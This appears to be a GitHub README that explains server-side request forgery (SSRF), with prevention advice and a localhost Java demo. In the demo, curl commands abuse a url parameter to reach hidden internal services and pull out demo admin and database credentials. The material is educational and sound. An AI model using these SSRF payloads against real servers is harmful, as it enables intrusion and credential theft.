

# What is SSRF?

Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make HTTP requests to an arbitrary domain of the attacker's choosing.

Criminals usually use SSRF attacks to target internal systems that are behind firewalls and are not accessible from the external network.
Typical exploitation of a server-side request forgery vulnerability

In a typical SSRF scenario, an external attacker who wants to access an internal server can’t use direct requests because they would be blocked by the firewall. Instead, malicious actors can exploit an SSRF vulnerability to make their attack via a vulnerable web server:





### Steps :
* The attacker sends a forged request to a web server that is vulnerable to SSRF and resides on the same internal network as the target server.
* The vulnerable web server sends the attacker-controlled request to the victim’s server, bypassing the firewall.
* The victim’s server responds to the web server with the requested data.
If the specific SSRF vulnerability permits it, the data is sent back to the attacker. In most cases, the attacker will need to exfiltrate or infer this information by other means (out-of-band).


## Why is server-side request forgery dangerous?
While many web vulnerabilities directly affect the target system, SSRF allows attackers to use the target as an intermediary that passes requests to a third system. So while an SSRF attack might not be damaging in itself, it can provide malicious hackers with access to internal systems that were never supposed to be accessible from the Internet. There are several reasons why this is dangerous.

### Prevent:
To prevent SSRF vulnerabilities in web applications, it is recommended to adhere to the following guidelines:
* Use a whitelist of allowed domains, resources and protocols from where the web server can fetch resources.
* Any input accepted from the user should be validated and rejected if it does not match the positive specification expected.
* If possible, do not accept user input in functions that control where the web server can fetch resources.

## Example

We have created three service for demo purpose

1. **public-web-service** : This service is exposed on internet
2. **internal-user-service** : This service is not exposed to internet but the resources can be accessible by **public web server**
3. **internal-admin-service** : This service is not exposed to internet. Attacker will try to access this service and retrive sensitive data by ssrf attack.

In a internal user service, we have a userdetails endpoint which will provide user related basic information.

### Get User Information
```java
curl http://localhost:8080/api/users?url=http://localhost:8081/api/userDetail/0
```
### Response
```json
{'name':'User-0','id':'0'}
```

### Get User Address
```java
curl http://localhost:8080/api/users?url=http://localhost:8081/api/userAddress/0
```

### Response
```json
{'address':'Ahmedabad, India','id':'0'}
```

#Attack

**Attacker will try to scan multiple ports via changing port number in url like below and he founds `8083` is reachable port.
He will try to get `adminDetail` using below endpoint.**


### Admin Details
```json
curl http://localhost:8080/api/users?url=http://localhost:8083/api/adminDetail
```

```json
{'username':'admin','password':'OhMyGod@123'}
```

### Db Sensitive Details
```json
curl http://localhost:8080/api/users?url=http://localhost:8083/api/dbDetail
```

```json
{'dbName':'controller','host':'10.0.1.35','username':'root', 'password':'XSuper@#12345', 'port':'5432'}
```

curl localhost:8080/management/mappings

**Useful Links**
https://www.hackerone.com/application-security/how-server-side-request-forgery-ssrf


